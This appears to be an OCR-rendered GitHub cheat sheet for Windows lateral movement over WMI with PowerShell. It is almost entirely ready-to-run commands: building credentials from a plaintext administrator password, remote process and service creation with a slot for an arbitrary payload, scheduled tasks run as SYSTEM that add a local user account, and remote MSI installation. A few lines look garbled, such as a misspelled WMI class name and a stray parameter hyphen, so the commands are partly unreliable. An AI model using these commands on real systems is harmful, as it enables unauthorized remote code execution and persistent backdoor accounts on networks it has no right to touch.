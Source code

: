 ## 1: Connect to WMI through Powershell

#### 1) 

    $username= 'Administrator';
#### 2) 

    $password= 'PASSWORD';
#### 3) 

    $securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;
#### 4) 

    $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

## 2: Establish WMI Session

### Protocols:

### 1) DCOM: RPC over IP. Ports: 135/TCP, 49152-65535/TCP

### 2) Wsman: WinRM. Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS) 

## 3: WMI Through Powershell

#### 1) 

    $Opt = New-CimSessionOption -Protocol DCOM

#### 2) 

    $Session = New-CimSession -ComputerName TARGET -Credential $credential -sessionOption $Opt -ErrorAction Stop

## 4: Remote Process Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5986/TCP, 5986/TCP

### Group Memberships: Administrators

#### 1) 

    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value jimmywsahere";

####  2) 

    Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}

### Legacy Systems

#### 

    wmic.exe /user:Administrator /password:PASSWORD /node:TARGET process call create "cmd.exe /c calc.exe"

## 5: Remote Service Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP (DCERPC) 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 1) 

    Invoke-CimMethod -CimSession $session -ClassName Win32Service -MethodName Create -Arguments @{Name = "service"; DisplayName = "service"; PathName = "net user USER PASSWORD /ADD" (INSERT YOUR PAYLOAD HERE) ServiceType = [byte]::parse("16"); (Win32OwnProcess: Start service in a new process) StartMode = "Manual"}

## 6: Get handle on service and start

#### 

    $service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'service'"

#### 

    Invoke-CimMethod -InputObject $service -MethodName StartService

#### 

    Invoke-CimMethod -InputObject $service -MethodName StopService

#### 

    Invoke-CimMethod -InputObject $service -MethodName Delete

## 7: Remote scheduled tasks creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

## *Payload must be split in Command and Args*

#### 

    $Command = "cmd.exe"

#### 

    $Args = "/c net user USER PASSWORD /add"

#### 

    $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args

#### 

    Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" - TaskName "task"

#### 

    Start-ScheduledTask -CimSession $Session -TaskName "task"

#### 

    Unregister-ScheduledTask -CimSession $Session -TaskName "task"

## 8: MSI Packages (WMI)

### Ports:  135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

### Legacy Systems

#### 

    wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\windows\myinstaller.msi
